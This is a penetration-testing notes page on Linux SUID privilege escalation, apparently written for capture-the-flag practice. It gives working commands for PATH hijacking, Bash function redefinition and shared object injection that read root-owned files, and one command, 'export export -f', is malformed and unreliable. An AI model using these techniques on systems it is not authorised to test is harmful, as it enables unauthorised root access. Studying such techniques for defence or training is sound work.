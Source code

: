 # Privilege Escalation via SUID

---

## What is SUID?

See [[suid|here]].

---

## SUID Privilege Escalation Process

1. Attempt [[suid-for-privesc#SUID Shell Escaping|SUID Shell Escaping]]
2. Attempt [[suid-for-privesc#SUID Exploitation via PATH|SUID Exploitation via the PATH Environment Variable]]
3. Attempt [[suid-for-privesc#SUID Exploitation via Bash Function Redefinition|SUID Exploitation via Bash Function Redefinition]]
4. Attempt [[suid-for-privesc#SUID Exploitation via Shared Object Injection|SUID Exploitation via Shared Object Injection]]

---

## SUID Shell Escaping

Abuse a SUID executable to perform actions as the owning user in order to elevate privileges.

### Process

1. [[suid#Find SUID Files|Find all files configured with the SUID bit]]
2. For each SUID file:
	- Determine if the file can be exploited, based on:
		- Is the file a standard SUID executable?
			- Answer by comparing it to a list of SUID executables for the same operating system version and kinda by its nonexistence on [GTFOBins](https://gtfobins.github.io/)
		- Is the owning user valuable?
		- Can the SUID executable be exploited?
			- Search for a SUID entry on the executable on [GTFOBins](https://gtfobins.github.io/)
			- If it's not on GTFOBins, understand exactly what it's doing and attempt to exploit it manually
	
---
	
## SUID Exploitation via Shared Object Injection

Executables often import shared object files to use their functionality. Sometimes these shared object files don't exist and the import fails. If you replaced the nonexistent shared object file with your own, you could execute arbitrary code in the context of the owner of the SUID executable.

### Process

1. [[suid#Find SUID Files|Find all files configured with the SUID bit]]
2. For each SUID file:
	- Use [[strace]] to trace the SUID executable's interaction with the kernel, looking specifically for failed shared object file imports

```bash
strace $SUID_EXECUTABLE 2>&1 | grep -i -E "open|access|no such file"
```

3. For each failed shared object file import:
	- Check your permissions on the target file or its directory. If you can replace it:
		- Replace it with a [[so-source|malicious shared object file]]
		- Run the SUID executable, which should load your malicious shared object file

---

## SUID Exploitation via `$PATH`

If a target SUID executable runs a command **without an absolute path**, it will search each directory in the `$PATH` environment variable for the command.

Since [[environment-variables#Inheritance|SUID child processes inherit environment variables]], you could write your own malicious version of the command the SUID executable is attempting to run and then add its directory to the front of the `$PATH` environment variable. Then you could run the SUID executable and it would find your malicious version of the command before the legitimate one and execute it in the security context of the owner of the SUID executable.

### Process

1. [[suid#Find SUID Files|Find all files configured with the SUID bit]]
2. For each **non-standard** SUID file:
	- Anayze the file and determine if it executes a command without an absolute path

	```bash
	$ strings /usr/bin/suid-executable
	/lib64/ld-linux-x86-64.so.2
	5q;Xq
	__gmon_start__
	libc.so.6
	setresgid
	setresuid
	system
	__libc_start_main
	GLIBC_2.2.5
	fff.
	fffff.
	l$ L
	t$(L
	|$0H
	service apache2 start
	```

	- If the executable runs a command without an absolute path:
		- Write your own version of the command to any arbitrary directory
			- You could also write a [[elf-source|malicious ELF]]
		
		```bash
		$ echo '#!/bin/bash' > /home/tgihf/service
		$ echo 'cp /root/flag.txt /dev/shm/tgihf.txt' >> /home/tgihf/service
		$ chmod +x /home/tgihf/service
		```
		
		- Add your version of the command's directory to the front of the `$PATH` environment variable
		
		```bash
		$ export PATH=/home/tgihf:$PATH
		```
		
		- Run the SUID executable, which will run your version of the command in the security context of the SUID executable's owner
		
		```bash
		$ /usr/bin/suid-executable
		$ cat /dev/shm/tgihf.txt
		flag{it-worked!}
		```


---

## SUID Exploitation via Bash Function Redefinition

If a target SUID executable runs a command **with an absolute path**, you can define a malicious Bash function with the same name as the absolute path. Since [[environment-variables#Inheritance|SUID child processes inherit environment variables]], the SUID child process will inherit the function name. Thus, when the SUID executable runs the absolute path, it will actually execute the malicious Bash function you defined.

### Process

1. [[suid#Find SUID Files|Find all files configured with the SUID bit]]
2. For each **non-standard** SUID file:
	- Anayze the file and determine if it executes a command with an absolute path

	```bash
	$ strings /usr/bin/suid-executable
	/lib64/ld-linux-x86-64.so.2
	5q;Xq
	__gmon_start__
	libc.so.6
	setresgid
	setresuid
	system
	__libc_start_main
	GLIBC_2.2.5
	fff.
	fffff.
	l$ L
	t$(L
	|$0H
	/usr/sbin/service apache2 start
	```

	- If the executable runs a command with an absolute path:
		- Define a Bash function with the same name as the absolute path:
		
		```bash
		$ function /usr/sbin/service() { cp /root/flag.txt /dev/shm/tgihf.txt; }
		```
		
		- Export the function
		
		```bash
		$ export export -f /usr/sbin/service
		```
		
		- Run the SUID executable, which will run your malicious Bash function
		
		```bash
		$ /usr/bin/suid-executable
		$ cat /dev/shm/tgihf.txt
		flag{it-worked!}
		```
